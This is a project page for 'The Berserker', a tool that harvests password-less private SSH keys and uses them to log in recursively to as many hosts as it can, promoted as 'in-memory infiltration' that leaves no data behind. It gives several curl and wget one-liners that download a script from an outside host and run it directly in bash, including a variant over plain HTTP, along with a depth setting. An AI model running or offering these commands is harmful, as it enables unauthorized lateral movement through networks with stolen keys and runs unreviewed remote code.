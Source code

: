 ```yaml
---
layout: default
title: Berserker
---
```


{:refdef: style="text-align: center;"}
## **A recursive, non-intrusive and ephemeral tool to find password-less private ssh-keys and build a hierarchical tree of reachable hosts**
{: refdef}

The Berserker looks for password-less ssh-keys (such as ```~/.ssh/id_rsa```) and then attempts to log in to as many hosts as possible. It repeats its action *recursively*. All this without writing or installing any data on any host. It's an *in-memory* infiltration only.

Use either one of these commands to start The Berserker:
```shell
export BS="$(curl -fsSL ssh-it.thc.org/bs)" && bash -c "$BS"
```
```shell
export BS="$(wget -O- ssh-it.thc.org/bs)" && bash -c "$BS"
```

{:refdef: style="text-align: center;"}
![Berserker-Example](berserker-example.png)
{: refdef}

Read [how it works](how-it-works/) and [design choices](how-it-works/) we made.

### Tips & Tricks

* Press ```CTRL-C``` to interrupt the Berserker at any time.
* No data is stored on the origin host or any target host.
* A typical run completes within a few seconds.

The default is to stop after a depth of 8. Changing this to ```BS_DEPTH=1``` will make The Berserker log into the next host but not any farther.
```shell
export BS="$(curl -fsSL ssh-it.thc.org/bs)" && bash -c "BS_DEPTH=1 $BS"
```

### When HTTPS is not available
```shell
# Without HTTPS 
export BS="$(wget -O- --no-hsts http://nossl.segfault.net/bs)" && \
bash -c "$BS"
```

### Alpha Testing
THIS IS ALPHA RELEASE. PLEASE TEST AND REPORT BACK ANY BUGS OR SUGGESTIONS.
Many Thanks to:
* #!adm for testing and comments

### Contact

{% include contact-details.md %}
